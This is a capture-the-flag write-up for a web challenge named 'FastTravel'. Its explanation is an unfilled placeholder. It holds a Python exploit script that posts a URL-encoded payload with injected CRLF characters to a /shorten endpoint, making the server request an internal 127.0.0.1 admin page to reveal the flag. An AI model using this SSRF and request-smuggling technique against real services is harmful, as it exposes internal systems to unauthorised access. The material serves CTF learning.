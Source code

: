 # FastTravel

## Description

```
The paths through the cyber world can be quite long. This is why we have set up a >FastTravel< network to shorten them. To avoid dangers we let you peek through them before you enter.
```

## Categories

- `web`

## Provided Files

- `fasttravel.zip`

## Solve Process

PLACEHOLDER

```py
import requests
from urllib.parse import quote

PAYLOAD = "http://127.0.0.1:5001/admin HTTP/1.1\r\nHost: localhost:5000\r\n\r\n"
CHALLENGE_HOST = "si56xggoi2mp9rmk.dyn.acsc.land"
REQUEST_PAYLOAD = f"source={quote(PAYLOAD)}"

print(f"[+] Payload is: {REQUEST_PAYLOAD}")
print("[+] Sending payload")
RESPONE = requests.post(url=f"https://{CHALLENGE_HOST}/shorten", data=REQUEST_PAYLOAD, allow_redirects=True)
if RESPONE.status_code == 200:
    print("[+] Success")
    print(f"[+] Retrieve flag here: {RESPONE.url}")
else:
    print(f"[-] Payload returned with status: {RESPONE.status_code}")
```
